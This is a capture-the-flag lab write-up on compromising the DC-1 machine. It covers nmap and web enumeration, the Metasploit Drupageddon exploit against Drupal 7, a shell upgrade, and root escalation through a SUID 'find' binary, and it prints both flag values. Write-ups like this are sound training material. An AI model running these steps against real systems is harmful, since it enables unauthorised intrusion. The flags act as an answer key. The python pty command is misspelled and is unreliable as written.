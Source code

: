 ```yaml
---
description: >-
  This is a free linux, proving grounds machine, you can also download it from
  vulhub.
---
```


# DC-1

### NMAP

```shell
nmap -sV -sC -T4 -p- -oN dc1 192.168.242.193  192.168.240.193
```

```markdown
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46232/tcp   status
|   100024  1          48086/tcp6  status
|   100024  1          53990/udp   status
|_  100024  1          57904/udp6  status
46232/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### ENUMERATION

#### rpc

```markdown
rpcinfo -p 192.168.242.193
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  53990  status
    100024    1   tcp  46232  status
                                       
```

#### http (port 80)

!\[\[rt 1.png]]

checking the robots.txt file !\[\[cd.png]] a full list of files is below

```markdown
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/wc/robots.html
#
# For syntax checking, see:
# http://www.sxw.org.uk/computing/robots/check.html

User-agent: *
Crawl-delay: 10
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

**DIRECTORY TRANSVERSAL**

feroxbuster

```shell
feroxbuster -u http://192.168.240.193 -x html,php,txt
```

since we know that site its using **Drupal 7** from our nmap or when you check the source code, lets search for its exploits

!\[\[dp.png]]

#### checking for exploits with msfconsole

```shell
search Drupal 7
```

!\[\[dc12.png]] Now i tried on the first exploits, they didn't work then i tried the second exploit and it worked for me well

```shell
1. use exploit/multi/http/drupal_drupageddon
2. show options
```

!\[\[dc13.png]] Now you have to set the **RHOSTS** to our target machine , we set the **LHOST** which our attack machine and the **LPORT** which is our listening port, since our website is running direct on port 80 which is our root, we don't need to change the **TARGETURI**

!\[\[DC14.png]]

Now our payload is delivered successfully and the meterpreter is started, with just a **shell** command we get access to our machine terminal. After getting access to our machine i had to check if it has python installed so that is elevate to a unrestricted shell.

```shell
1. which python
2. python 'import pty;pty.spwan("/bin/bash")'
```

!\[\[dc15.png]]

we find our first flag when we enter in out **/home** directory

```shell
cat flag.txt
```

flag

```markdown
a0db6e93743d9477744b9c4084c6aa14
```

### privilege escalation

After finding our first flag we have have to see how we can elevate our privileges I tried to download **linpeas** to a victim machine but i never had permission so i tried another way which is finding the **SUID**

```shell
find / -user root -perm /4000 2>/dev/null
```

!\[\[dc16.png]]

in the list give i happen to see find and to check it on **GTFOBins** i found a shell command that can give me the root shell [find-GTFOBin](https://gtfobins.github.io/gtfobins/find/#shell)

```shell
find . -exec /bin/sh \; -quit
```

After getting acces to a root machine we find the final flag in the **/root** path !\[\[dc17.png]]

```markdown
1. cat proof.txt
	dd4bb4fc19607a2d17da212ef2646b07
```

machine successfully hacked.
